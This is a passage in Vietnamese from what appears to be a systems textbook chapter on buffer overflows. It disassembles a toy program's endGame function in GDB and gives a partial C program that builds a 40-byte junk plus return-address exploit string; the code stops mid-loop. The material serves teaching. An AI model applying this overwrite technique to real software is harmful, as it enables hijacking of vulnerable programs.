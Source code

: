 Để tìm địa chỉ của `endGame`, hãy kiểm tra lại `secret` trong GDB:


```
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
    0x00000000004006da <+0>:   push   %rbp
    0x00000000004006db <+1>:   mov    %rsp,%rbp
    0x00000000004006de <+4>:   mov    $0x40086a,%edi
    0x00000000004006e3 <+9>:   callq  0x400500 <puts@plt>
    0x00000000004006e8 <+14>:  mov    $0x0,%edi
    0x00000000004006ed <+19>:  callq  0x400550 <exit@plt>
End of assembler dump.
```

Quan sát thấy `endGame` bắt đầu tại địa chỉ `0x00000000004006da`. [Hình 4](#finalExploit) minh họa một ví dụ exploit buộc `secret` chạy hàm `endGame`.

![exploit](_images/finalExploit.png)

**Hình 4.** Một chuỗi mẫu có thể buộc `secret` thực thi hàm `endGame`

Về cơ bản, có 40 byte dữ liệu rác theo sau là return address. Một lần nữa, vì x86-64 là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte trong return address sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình sau minh họa cách một kẻ tấn công có thể tạo ra exploit ở trên:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
"\xda\x06\x40\x00\x00\x00\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
```